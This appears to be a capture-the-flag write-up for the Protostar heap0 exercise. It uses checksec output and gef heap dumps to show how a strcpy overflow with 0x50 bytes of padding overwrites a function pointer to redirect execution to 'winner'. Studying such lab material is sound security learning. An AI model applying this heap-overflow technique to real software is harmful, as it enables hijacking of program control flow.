 # Protostar Heap0
Pretty straight forward heap overflow. We have to call the function **winner**.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

![](img/main_hlil.png)

### Security 
Only NX enabled.

```shell
$ checksec ./heap0
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## Solution
Overwrite pointer to **nowinner** with pointer to **winner** function.

#### First heap chunk
```shell
gef➤  heap chunk 0x0804b1a0
Chunk(addr=0x804b1a0, size=0x50, flags=PREV_INUSE)
Chunk size: 80 (0x50)
Usable size: 76 (0x4c)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```

#### Second heap chunk
```shell
gef➤  heap chunk 0x0804b1f0
Chunk(addr=0x804b1f0, size=0x10, flags=PREV_INUSE)
Chunk size: 16 (0x10)
Usable size: 12 (0xc)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```

As we can see from the size of the first heap chunk we need 0x50 bytes of padding before overwritting the function pointer.

#### Second heap chunk before overflow
```shell
gef➤  dereference 0x0804b1f0-8
0x0804b1e8│+0x0000: 0x00000000
0x0804b1ec│+0x0004: 0x00000011
0x0804b1f0│+0x0008: 0x080484e1  →  <nowinner+0> push ebp	 ← $eax
0x0804b1f4│+0x000c: 0x00000000
0x0804b1f8│+0x0010: 0x00000000
0x0804b1fc│+0x0014: 0x00021e09
0x0804b200│+0x0018: 0x00000000
0x0804b204│+0x001c: 0x00000000
0x0804b208│+0x0020: 0x00000000
0x0804b20c│+0x0024: 0x00000000
```

#### Second heap chunk after overflow
After **strcpy** with an argument of length 0x54.
```shell
gef➤  dereference 0x0804b1f0-8
0x0804b1e8│+0x0000: "AAAAAAAAAAAA"
0x0804b1ec│+0x0004: "AAAAAAAA"
0x0804b1f0│+0x0008: "AAAA"
0x0804b1f4│+0x000c: 0x00000000	 ← $edx
0x0804b1f8│+0x0010: 0x00000000
0x0804b1fc│+0x0014: 0x00000411
0x0804b200│+0x0018: "data is at 0x804b1a0, fp is at 0x804b1f0\n"
0x0804b204│+0x001c: "is at 0x804b1a0, fp is at 0x804b1f0\n"
0x0804b208│+0x0020: "at 0x804b1a0, fp is at 0x804b1f0\n"
0x0804b20c│+0x0024: "x804b1a0, fp is at 0x804b1f0\n"
```